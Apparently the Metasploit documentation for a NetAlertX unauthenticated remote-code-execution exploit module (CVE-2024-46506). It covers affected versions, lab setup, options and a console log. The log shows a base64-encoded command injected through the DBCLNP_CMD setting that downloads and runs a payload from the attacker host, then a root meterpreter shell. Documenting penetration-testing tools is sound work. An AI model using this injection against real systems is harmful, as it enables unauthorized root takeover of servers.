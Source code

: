 ## Vulnerable Application

An attacker can update NetAlertX settings with no authentication, which results in RCE.

The vulnerability affects:

    * v23.01.14 <= NetAlertX <= v24.9.12

This module was successfully tested on:

    * NetAlertX v24.9.12 installed with Docker on Ubuntu 22.04


### Installation

1. `docker pull jokobsk/netalertx:24.9.12`

2. docker run
```bash
docker run --rm --network=host \
  -v /tmp/netalertx:/app/config \
  -v /tmp/netalertx:/app/db \
  -e TZ=Europe/Berlin \
  -e PORT=20211 \
  jokobsk/netalertx:24.9.12
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/netalertx_rce_cve_2024_46506`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options
### WAIT (required)
Wait time (seconds) for the payload to be set. Default is `75`.

### CLEANUP
Restore DBCLNP_CMD to original value after execution. Default is `true`.


## Scenarios
```
msf6 > use exploit/linux/http/netalertx_rce_cve_2024_46506
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/netalertx_rce_cve_2024_46506) > options

Module options (exploit/linux/http/netalertx_rce_cve_2024_46506):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CLEANUP  true             no        Restore DBCLNP_CMD to original value after execution
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    20211            yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host
   WAIT     75               yes       Wait time (seconds) for the payload to be set


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      zoAzVoLyP        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/netalertx_rce_cve_2024_46506) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 24.9.12 detected.
[*] Sent request to update DBCLNP_CMD to '/bin/bash -c echo${IFS}d2dldCAtcU8gLi9SbHBlc21GQURReSBodHRwOi8vMTkyLjE2OC41Ni4xOjgwODAvRy04Zjhua29IMGRUWkdQc052UzIzZztjaG1vZCAreCAuL1JscGVzbUZBRFF5Oy4vUmxwZXNtRkFEUXkmc2xlZXAgMztybSAtcmYgLi9SbHBlc21GQURReQ==|base64${IFS}-d|/bin/bash'.
[*] Waiting settings really updated...
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:50192) at 2025-02-10 21:36:07 +0900
[*] Added the payload to the queue. Waiting for the payload to run...
[*] Sent request to update DBCLNP_CMD to 'python3 /app/front/plugins/db_cleanup/script.py pluginskeephistory={pluginskeephistory} hourstokeepnewdevice={hourstokeepnewdevice} daystokeepevents={daystokeepevents} pholuskeepdays={pholuskeepdays}'.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           :  (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

